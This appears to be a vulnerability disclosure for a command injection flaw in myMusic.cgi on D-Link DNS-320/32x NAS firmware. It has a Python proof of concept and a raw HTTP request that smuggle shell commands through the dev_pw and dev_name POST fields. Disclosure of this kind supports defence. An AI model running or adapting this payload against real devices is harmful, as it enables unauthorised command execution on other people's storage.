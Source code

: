 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)
# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_set_airplay_content function of the file /cgi-bin/myMusic.cgi.  The variable `dev_pw`is passed from a POST request and is assigned to `v5` via the `snprintf` function at line 36 and invoked by the `system` command, it can lead to command execution. 

![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723716837449-ffc51fc6-4fea-4f9c-85c0-d215c81def92.png#averageHue=%23fefefd&clientId=u35e56796-540d-4&from=paste&height=445&id=u37d56097&originHeight=445&originWidth=1630&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68086&status=done&style=none&taskId=uc046d413-bb87-40c8-abd4-8fec0e381cc&title=&width=1630)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/myMusic.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_set_airplay_content&ptype=clean&dev_pw=`touch%09/tmp/118`&type=1&user=photos&idx=10&dev_name=%0atouch%09/tmp/118%0a&dev_type=10&page=19&r=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/myMusic.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Cookie: username=admin
Priority: u=1

cmd=cgi_set_airplay_content&ptype=clean&dev_pw=`touch%09/tmp/118`&type=1&user=photos&idx=10&dev_name=%0atouch%09/tmp/118%0a&dev_type=10&page=19&r=/tmp/
```
